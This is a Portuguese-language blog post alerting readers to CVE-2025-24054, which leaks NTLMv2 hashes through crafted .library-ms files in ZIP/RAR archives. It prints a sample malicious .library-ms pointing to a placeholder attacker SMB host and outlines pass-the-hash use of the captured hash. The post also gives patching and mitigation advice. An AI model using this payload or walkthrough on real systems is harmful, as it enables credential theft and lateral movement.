 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00 # << AJUSTE ESTA DATA E HORA PARA A PUBLICAÇÃO
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot" # Seu nome de autor
images:
  - images/SemTitulo-1.png
  - images/SemTitulo-2.png
draft: false

tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).



Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

* **Tentar ataques de "Pass-the-Hash":** Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
* **Tentar Quebra de Senha Offline:** O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:
* **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso
- 1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

    - **O que é SMB (Server Message Block)**? De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede. Quando você acessa uma pasta compartilhada como `\\NOMEDOSERVIDOR\pasta`, você está usando SMB.
- 2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:
O arquivo `library-ms` pode conter algo como:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="[http://schemas.microsoft.com/windows/2009/library](http://schemas.microsoft.com/windows/2009/library)">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///[servidor-do-atacante.com/recurso_malicioso](https://servidor-do-atacante.com/recurso_malicioso)</url>
                {{/* Outra variação poderia ser: <url>\\servidor-do-atacante.com\recurso_malicioso</url> */}}
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

- 3. **Entrega e Extração**: O invasor comprime este arquivo .library-ms (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima (ex: via e-mail, download de site comprometido).
---
- 4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer, ao processar o arquivo `.library-ms` recém-extraído (para indexação, pré-visualização, etc.), tenta se conectar automaticamente ao caminho SMB especificado.

- 5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante, que está esperando por isso, captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`
**Hash NTLMv2 Capturado (Exemplo Fictício)**: `UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

**Impacto do Vazamento de Hash NTLMv2**
Com o hash NTLMv2 da vítima em mãos, um invasor tem algumas opções perigosas:

- Tentar Quebra de Senha Offline: O hash NTLMv2 pode ser submetido a ferramentas de cracking (como Hashcat ou John the Ripper) em conjunto com listas de palavras (wordlists) e regras de mutação para tentar descobrir a senha de texto puro do usuário. A complexidade da senha original e a capacidade computacional do invasor determinam a chance de sucesso.

- **Ataques de "Pass-the-Hash" (PtH)**: Este é frequentemente o impacto mais direto e perigoso em ambientes corporativos.

**O que é um Ataque "Pass-the-Hash"**? Em um ataque PtH, o invasor não precisa conhecer a senha em texto puro. Em vez disso, ele usa o próprio hash NTLM roubado para se autenticar em outros sistemas e serviços na rede que aceitam autenticação NTLM.
- Exemplo Conceitual de Pass-the-Hash:
- 1. O atacante capturou o hash NTLMv2 de MEUDOMINIO\UsuarioAlvo.
- 2. O UsuarioAlvo também é administrador de um servidor importante na rede chamado "SERVIDOR_ALVO".
- 3. O atacante usa uma ferramenta (como PsExec do conjunto Sysinternals, ou ferramentas do framework Impacket ou Mimikatz) e fornece o hash NTLMv2 de UsuarioAlvo em vez de uma senha.
- 4. Se o "SERVIDOR_ALVO" aceitar autenticação NTLM e o hash for válido para UsuarioAlvo, o atacante ganha acesso ao "SERVIDOR_ALVO" com os privilégios de UsuarioAlvo (neste caso, administrador), sem nunca ter descoberto a senha real.

**Sistemas Afetados**

A vulnerabilidade afeta o Windows Explorer em versões do Windows que processam automaticamente arquivos `.library-ms` e ainda utilizam ou permitem fallback para autenticação NTLM em conexões SMB.

**Correção e Mitigação**

A boa notícia é que a Microsoft já corrigiu esta vulnerabilidade específica (CVE-2025-24054). A correção foi disponibilizada através das atualizações de segurança, provavelmente no "Patch Tuesday" de Março (conforme mencionado no artigo original).

*Recomendações Principais*:

- 1. *Mantenha o Windows Atualizado*: Aplique todas as atualizações de segurança da Microsoft o mais rápido possível. Esta é a defesa primária contra esta e muitas outras vulnerabilidades.
- 2. *Cautela com Arquivos Compactados*: Tenha cuidado ao baixar e extrair arquivos .zip ou .rar de fontes não confiáveis ou inesperadas.
- 3. *Configurações de Segurança de Rede (Para Ambientes Corporativos)*:
 - Considere desabilitar o NTLM e forçar o uso de Kerberos sempre que possível.
Implemente segmentação de rede e firewalls para restringir conexões SMB desnecessárias, especialmente para fora da rede local.
 - Monitore tentativas de autenticação NTLM suspeitas.

**Conclusão e Próximos Passos**

Vulnerabilidades como a CVE-2025-24054 destacam a importância de mecanismos de defesa em camadas e a necessidade de manter os sistemas atualizados. Embora o patch da Microsoft resolva este vetor específico, a compreensão de como os hashes NTLM podem ser explorados é crucial para a segurança em ambientes Windows.

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática e como um atacante poderia usar ferramentas como as do Kali Linux para explorar uma vulnerabilidade similar em um ambiente controlado?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**! Vamos montar um laboratório e demonstrar passo a passo. Fique ligado!



![Imagem no final da página](/images/SemTitulo-2.png)
<img src="/images/SemTitulo-2.png" alt="Imagem final da página" style="max-width: 80%; height: auto; display: block; margin: 0 auto;">



---